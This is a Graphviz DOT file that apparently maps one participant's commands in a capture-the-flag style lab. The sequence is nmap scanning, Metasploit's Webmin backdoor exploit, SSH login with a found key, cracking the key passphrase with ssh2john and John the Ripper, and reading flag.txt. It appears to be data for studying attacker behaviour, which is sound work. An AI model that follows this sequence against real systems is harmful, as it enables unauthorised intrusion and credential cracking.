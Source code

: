// creating graph for user: 70
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 -p 10000 A1 "]
	3 [label="ls A10 "]
	5 [label="ls A10 "]
	11 [label="msfconsole M2 "]
	14 [label="use unix/webapp/webmin_backdoor M4 "]
	16 [label="show options M5 "]
	17 [label="set RHOSTS 172.18.1.5 M6 "]
	18 [label="exploit M8 "]
	27 [label="nmap 172.18.1.1/24 A1 "]
	28 [label="nmap 10.0.1.1/24 A1 "]
	29 [label="nmap 10.1.0.1/24 A1 "]
	30 [label="nmap 100.100.100.1/24 A1 "]
	34 [label="nmap 172.168.1.1/24 A1 "]
	35 [label="nmap 172.18.1.1/24 A1 "]
	37 [label="nmap 10.1.0.1/24 A1 "]
	43 [label="nmap 10.1.17.4 A1 "]
	45 [label="chmod 600 key.txt M15 "]
	46 [label="ssh -i key.txt eve@10.1.17.4 M16 "]
	49 [label="ls A10 "]
	50 [label="./ssh2john.py A14 "]
	51 [label="./ssh2john.py key.txt A14 "]
	52 [label="./ssh2john.py key.txt > sshjohn.txt A14 "]
	53 [label="ls A10 "]
	54 [label="man john A14 "]
	55 [label="john --single sshjohn.txt A14 "]
	56 [label="john --show sshjohn.txt A14 "]
	57 [label="john --single sshjohn.txt A14 "]
	58 [label="john --show sshjohn.txt A14 "]
	59 [label="john -i sshjohn.txt A14 "]
	60 [label="john --incremental sshjohn.txt A14 "]
	61 [label="ls A10 "]
	64 [label="john --wordlist /usr/share/wordlists/rockyou.txt sshjohn.txt M14 "]
	67 [label="ls A10 "]
	69 [label="ls A10 "]
	70 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 3 [constraint=false]
	3 -> 5 [constraint=false]
	5 -> 11 [constraint=false]
	11 -> 14 [constraint=false]
	14 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 37 [constraint=false]
	37 -> 43 [constraint=false]
	43 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 64 [constraint=false]
	64 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	rankdir=LR
}
